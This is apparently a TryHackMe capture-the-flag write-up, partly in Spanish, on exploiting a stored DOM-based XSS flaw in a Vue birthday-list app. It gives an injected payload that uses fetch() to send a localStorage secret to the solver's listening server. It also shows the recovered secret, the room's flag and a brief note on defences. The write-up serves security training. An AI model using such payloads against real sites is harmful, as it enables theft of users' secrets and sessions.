# DOM-Based Attacks

https://tryhackme.com/room/dombasedattacks

## Task 7

You can then navigate to http://lists.tryhackme.loc:5173/(opens in new tab) . Here, you will find a simple birthday list application that is vulnerable to a stored DOM-based XSS attack. While you can add and update birthdays, you cannot delete them. You aim to weaponise the XSS vulnerability to recover the information required to delete birthdays. Once you delete all of them, you will receive your flag!


### Enumeration of a Modern Frontend Application

In order to do this challenge and answer the questions, you will need to analyse the Vue application. Navigating to the application you will see the following:



If you simply use View Page Source, this doesn't really help you a lot:



However, the browser will actually rebuild the Vue application for us in the debugger. You can access the debugger by Right-Clicking, selecting Inspect, and then clicking the Debugger tab. You will see the following:



Using this, you can navigate to src -> components, which will show you the rebuilt (referred to as mapped) Vue files, as shown below:



You will have to use this feature to solve the challenge and answer the questions below!

Hint: You need to trick another application user into giving you sensitive information. However, if you alert this user, they will become suspicious and simply stop using the application. You can console them by either logging while you perform your tests or restarting the entire machine. Furthermore, if you are able to get an interaction from the user but it isn't exactly what you were hoping for, perhaps the answer is to monitor the user closer and for longer!




```bash
python3 -m http.server 8080 
```

Insertar nuevo usuario con el siguiente código:
```bash
 {fetch('http://10.9.244.36:8080?secret=' + encodeURIComponent(localStorage.getItem('secret')), {method: 'GET'});}, 6000);">
```



Abrir una nueva ventana para cargar los datos



obtenemos: /?secret=thisisthesupersecretvalue





ahora es posible borrar la lista:



```bash
http://lists.tryhackme.loc:5001/ping
```



```bash
THM{Weaponising.DOM.Based.XSS.For.Fun.And.Profit}
```



## Task 8

### Defences

To defend against DOM-based attacks, it is important to once again treat all user input as unsafe, even when it is still just being processed by the browser. SAST and DAST tooling can also scan code, requests and responses for potential sources and sinks where sanitisation and validation have not been implemented.